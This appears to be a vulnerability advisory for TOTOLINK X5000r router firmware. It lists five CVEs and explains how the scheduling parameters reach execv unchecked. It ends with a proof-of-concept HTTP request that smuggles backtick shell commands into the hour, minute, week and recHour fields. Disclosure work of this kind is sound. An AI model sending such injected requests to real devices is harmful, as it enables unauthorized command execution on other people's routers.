 # totolink X5000r
## CVEIDs

The CVEIDs of these vulnerabilities and the corresponding vulnerable parameters are as follows.

CVE-2024-57011，vulnerable parameter：`minute`

CVE-2024-57012，vulnerable parameter：`week`

CVE-2024-57013，vulnerable parameter：`switch`

CVE-2024-57014，vulnerable parameter：`recHour`

CVE-2024-57015，vulnerable parameter：`hour`

## Firmware version

totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setScheduleCfg` (at 0x410E4C), binary /web/cgi-bin/cstecgi.cgi. These parameters (`switch`, `week`, `hour`, `minute`, `recHour`) are passed to the `Uci_Set_Str` function without any check.

![](setScheduleCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/schedule.html?timestamp=1733728879167


{"mode":"1","hour":"6`ls>/tmp/1`","minute":"6`ls>/tmp/2`","week":"2`ls>/tmp/3`","recHour":"0`ls>/tmp/4`","topicurl":"setScheduleCfg","token":"836e5d5bf36f2c943d6291c332aee9b0"}
```
